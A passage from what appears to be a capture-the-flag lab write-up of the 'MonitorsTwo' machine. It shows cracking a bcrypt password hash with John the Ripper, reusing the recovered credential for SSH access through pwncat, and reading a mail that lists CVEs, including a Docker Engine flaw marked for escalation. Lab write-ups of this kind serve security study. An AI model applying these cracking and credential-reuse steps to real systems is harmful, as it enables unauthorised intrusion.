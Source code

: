 The password hash for marcus can be cracked using JTR and the `rockyou` wordlist → `marcus:funkymonkey`.

```bash
> john hashes --format=bcrypt --show
marcus:funkymonkey
```

Testing for password reuse, the credentials are reused on SSH.

```bash
> pc marcus:funkymonkey@10.10.11.211
[20:19:40] Welcome to pwncat 🐈!
[20:19:43] 10.10.11.211:22: registered new host w/ db
You have mail.
(local) pwncat$
(remote) marcus@monitorstwo:/home/marcus$ id
uid=1000(marcus) gid=1000(marcus) groups=1000(marcus)
```

### Docker engine exploit

After some enumeration, found a mail in the `/var/mail` directory addressed to Marcus. The mail highlights three different vulnerabilities. While the first two vulnerabilities may not be relevant here, the third vulnerability might be worth exploring further.

```bash
(remote) marcus@monitorstwo:/tmp/abraxas$ ls -la /var/mail
total 12
drwxrwsr-x  2 root mail 4096 Mar 22 11:46 .
drwxr-xr-x 13 root root 4096 Jan  9 10:03 ..
-rw-r--r--  1 root mail 1809 Oct 18  2021 marcus
(remote) marcus@monitorstwo:/tmp/abraxas$ cat /var/mail/marcus
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
```